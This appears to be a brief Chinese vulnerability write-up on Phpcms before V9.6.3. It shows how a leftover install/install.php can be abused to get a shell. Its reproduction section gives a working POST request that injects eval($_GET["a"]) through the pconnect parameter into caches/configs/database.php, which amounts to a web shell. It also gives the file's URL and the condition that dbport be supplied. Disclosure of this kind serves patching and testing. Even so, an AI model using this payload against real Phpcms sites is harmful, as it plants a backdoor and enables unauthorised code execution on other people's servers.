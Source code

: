 # Phpcms V9.6.3 install.php 没有即使删除导致的getshell

## 一、漏洞简介

比较鸡肋，需要在环境安装好了之后，install.php也没有被删除，才可以利用

### 二、漏洞影响

Phpcms < V9.6.3

## 三、复现过程


```bash
POST /install/install.php?step=installmodule
module=admin&dbport=3306&pconnect=eval($_GET["a"])
```

这里控制的是 pconnect参数，因为默认它没有单引号比较好调试。注意这里如果不传dbport参数的话database.php里的port参数会置空，将会报错。就无法执行到后面的 eval了

![1.png](media/202009/3d7da798aa1541c2b0d1a025e6847862.png)

被修改后的database.php：

![2.png](media/202009/e3ae28de0c9b4b4490036c68f900c3c6.png)

url：`/caches/configs/database.php`

![3.png](media/202009/8e9ac2e8487943e99ea2a8ca510d9a6e.png)

